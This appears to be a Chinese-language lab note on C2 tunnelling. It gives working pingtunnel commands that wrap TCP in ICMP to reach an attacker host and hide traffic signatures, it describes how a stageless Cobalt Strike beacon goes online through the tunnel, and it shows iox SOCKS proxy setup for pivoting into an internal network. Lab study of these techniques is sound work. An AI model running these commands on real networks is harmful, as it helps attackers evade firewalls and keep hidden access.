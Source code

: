 # 隧道技术 icmp dns

![1732452050196](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942043.png)

出网：看之间是否能通讯

​	c2常见的协议

隧道技术：绕过防火墙，实现通讯能够上线

出网就是出站----防火墙

  配置

将出站规则都开启，执行后面没有上线

![1732461696691](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942044.png)

将出站规则关闭：

![1732461815088](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942045.png)

打开icmp通讯：192.168.139.128为kali地址,与web机在同一个网段------------此时web防火墙入站和出站是开着。这里都是随便ping 只要能互相通信就行

![1732462308609](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942046.png)

关闭icmp协议: 

![1732462439111](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942047.png)

### icmp:

这里的环境复现是：其中kali的ip  192.168.139.128       web :192.168.139.222       192.168.2.11

![1732523729550](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942048.png)

  上线  使用工具 pingtunnel

./pingtunnel -type server

工具将本地tcp流量用自己的6666端口流量转发到192.168.139.141:7777 上面（将tcp流量封装成icmp转发）

pingtunnel -type client -l :6666 -s 192.168.139.141 -t 192.168.139.141:7777 -tcp 1 -noprint 1 -nolog 1   后门生成绑定6666，上线监听7777，上线找7777。			这个工具就是封装作用  （ 1 -noprint 1 -nolog 1  就是减少流量特征的，不打印信息）

下面本应该是在webshell页面执行，但为了省事，就直接在目标机web上进行操作：

上传工具pingtunnel，然后在能和目标机通讯的机器上 ，（这里是kali）创建一个监听：

![1732524394790](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942049.png)

执行转发命令-----前面几次没有成功是因为web机的出站icmp没有开：、

![1732525019259](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942050.png)

成功接收到：

![1732524956671](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942051.png)

生成2个监听器：1 、2

![1732525288157](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942052.png)

下面生成exe、要选择stageless的，如果选择（E）上面的那个模式，无法上线（踩坑）：这里exe的监听器为1

![1732526027873](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942053.png)

执行66666.exe则就反射到本地6666来上线，而6666又经过一系列的转发成icmp到7777才出去，2监听器监听7777成功收到web机请求上线。

![1732526222224](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942054.png)

然后用wireshark监听流量发现，web机过来的全部是icmp协议的数据包（http----->icmp封装成功）：

![1732526418330](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942055.png)

隧道一关闭、cs就掉线：

![1732526561513](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942056.png)

### dns

  使用DNS技术实现上线----使用C2自带工具。 关闭icmp通讯出站。打开dns出站规则。这里上线需要一个dns的域名网站来上线dns的exe，这就是dns协议实现上线

关闭icmp出站协议，打开dns协议

![1732526830482](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942058.png)

下面还是本应该在webshell操作。我懒的上线get，就直接在主机上演示：

这里还得需要一个dns的域名。省略这个

### msb:

  MSF icmp实现上线。msf的dns过时，已下架。

   smb开放着，利用smb进行通讯，为入站规则

![1732529462918](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942059.png)

可以通过smb来正向连接来获取权限。这里属于横向移动知识点，后期在学

### 内网穿透:

   这里的状况（防火墙策略）是 web机器是只让web进，icmp出。隧道技术就是有一些放的口子（有一些出站的规则），这种一般都是内网穿透。演示一款工具：iox       pingtunnel                                                                                                   2222->4455->5566                   pingtunnel -type client -l 127.0.0.1:2222 -s 192.168.139.128 -t 192.168.139.128:4455 -tcp 1 -noprint 1 -nolog 1 -key 000000           （这里的key是防止别人也连接到你打pingtunnel，所以有一个key）    192.168.139.141为kali   127.0.0.1web机器，因为web机的防火墙策略。所以这里命令就是将web机的2222端口的tcp协议的流量封装成icmp协议给发送到192.168.139.141:4455（kali的4455端口），在kali(攻击机)./pingtunnel -type server -noprint 1 -nolog 1 -key 000000接收目标发过来的icmp流量数据，然后因为是发到自己的4455端口，所以./iox proxy -l 4455 -l 5566  用iox代理工具将4455转至5566端口。在web机上还要建立SockS节点绑定2222端口----相当于创建一个2222端口，他才能将icmp流量数据转发出去：iox.exe proxy -r 127.0.0.1:2222。类似上面的socks端口创建，因为这里目标机的防火墙策略特殊，所以采用这种方法创建socks节点。后面就一样用代理Profiex连接socks，从而实现与目标机通讯。

将web本地2222端口的TCP封装IMCP给能通讯的kali：-----已经将iox和pingtunne上传目标机了

![1732531243372](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942060.png)

接收客户端传递的ICMP：

![1732531600655](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942061.png)

端口转发，创建有socks5协议 ：

![1732531373768](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942062.png)

再在web上开放一个2222端口：

![1732535373473](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942063.png)

最后效果就是在本机能访问到目标主机，之间建立通讯。
